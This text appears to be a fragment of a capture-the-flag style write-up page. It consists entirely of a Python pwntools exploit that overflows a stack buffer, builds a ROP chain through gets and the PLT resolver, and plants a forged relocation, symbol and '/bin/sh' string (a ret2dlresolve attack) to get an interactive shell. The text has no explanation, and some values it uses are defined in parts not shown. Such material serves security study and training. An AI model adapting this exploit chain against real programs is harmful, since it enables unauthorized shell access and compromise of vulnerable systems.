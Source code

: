 ```python=
print("[*] addr .dynstr start : 0x{:x}".format(addr_dynstr))

print("[*] addr fake puts_rela : 0x{:x}".format(base_stage + 0x10))

buf = b'A' * 0x78
buf += p64(addr_pop_rdi)
buf += p64(base_stage)
buf += p64(addr_plt_gets)
buf += p64(addr_pop_rdi)
buf += p64(base_stage)
buf += p64(addr_ret)
buf += p64(addr_plt_start)
buf += p64(puts_reloc_arg)
buf += p64(addr_plt_exit)

buf2 = b"/bin/sh\x00"
buf2 += p64(0x0)
buf2 += b"B" * fake_rela_align
buf2 += fake_rela
buf2 += b"C" * fake_sym_align
buf2 += fake_sym
buf2 += fake_str

_ = input()
target.sendline(buf)
target.sendline(buf2)

target.interactive()
```

